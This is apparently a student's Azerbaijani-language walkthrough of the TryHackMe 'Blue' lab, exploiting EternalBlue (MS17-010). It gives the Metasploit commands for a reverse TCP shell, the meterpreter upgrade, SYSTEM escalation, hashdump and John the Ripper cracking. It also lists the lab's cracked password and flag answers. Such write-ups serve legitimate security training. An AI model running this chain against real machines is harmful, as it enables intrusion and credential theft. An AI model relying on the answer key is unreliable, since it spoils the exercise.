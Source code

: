 # Lab: Blue – TryHackMe

**Məqsəd:** EternalBlue (MS17-010) zəifliyindən istifadə edərək foothold əldə etmək, post-exploitation, hash dump və flag toplamaq.

---

## Task 1: Recon

**Machine və AttackBox-u işə sal**  
- “Start Machine” və “Start AttackBox” düymələrini bas.  
- Split-Screen view istifadə et.  

**Port Scan:**  

nmap -sV -p 1-1000 -sC -T4 <target-ip>
Cavab: Açıq portlar 1000-dən aşağı → 3

Screenshot: (screenshots/nmap.png)

Vulnerability identification:

Cavab: ms17-010

## Task 2: Gain Access
Metasploit-i işə sal:

bash
Copy code
msfconsole
Exploit modulunu seç:

bash
Copy code
use exploit/windows/smb/ms17_010_eternalblue
Cavab: exploit/windows/smb/ms17_010_eternalblue

Əsas parametrin set edilməsi:

bash
Copy code
set RHOSTS <target-ip>
Cavab: RHOSTS

Screenshot: (Rhosts.png)

Payload təyin et:

bash
Copy code
set payload windows/x64/shell/reverse_tcp
Exploit-i işə sal:

bash
Copy code
exploit
Shell açılacaq




## Task 3: Escalate
Əvvəlki shell-i background et:

CTRL + Z

Shell to Meterpreter post-modulu:

bash
Copy code
use post/multi/manage/shell_to_meterpreter
Cavab: post/multi/manage/shell_to_meterpreter

Əsas parametrin set edilməsi:

bash
Copy code
set SESSION 1
Cavab: SESSION

Post modulunu çalışdır:

bash
Copy code
exploit
Shell meterpreter-ə çevriləcək



SYSTEM hüququnu yoxlama:

bash
Copy code
getsystem
shell
whoami
Cavab: NT AUTHORITY\SYSTEM


Process migration:

bash
Copy code
ps
migrate <PROCESS_ID>
SYSTEM hüququ ilə prosesə migrate et



## Task 4: Cracking
Password hash-ləri dump et:

bash
Copy code
hashdump
Cavab: Jon



Hash-i fayla yaz:

bash
Copy code
nano hashjon.txt
Hash-i hashjon.txt faylına yapışdır

John the Ripper ilə qır:

bash
Copy code
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashjon.txt
Cavab: alqfna22

Screenshot: (screenshots/john.png)

## Task 5: Find Flags  

Flag1 – System root:

bash
Copy code
cd /
cat flag1.txt
Cavab: flag{access_the_machine}

Screenshot: (screenshots/flag1.png)

Flag2 – Windows parol qovluğu:

bash
Copy code
cd windows/System32/config
cat flag2.txt
Cavab: flag{sam_database_elevated_access}

Screenshot: (screenshots/flag2.png)

Flag3 – Administrator Documents (Jon qovluğu):

bash
Copy code
cd /Users/Jon/Documents
cat flag3.txt
Cavab: flag{admin_documents_can_be_valuable}


Screenshot: (screenshots/flag3.png)


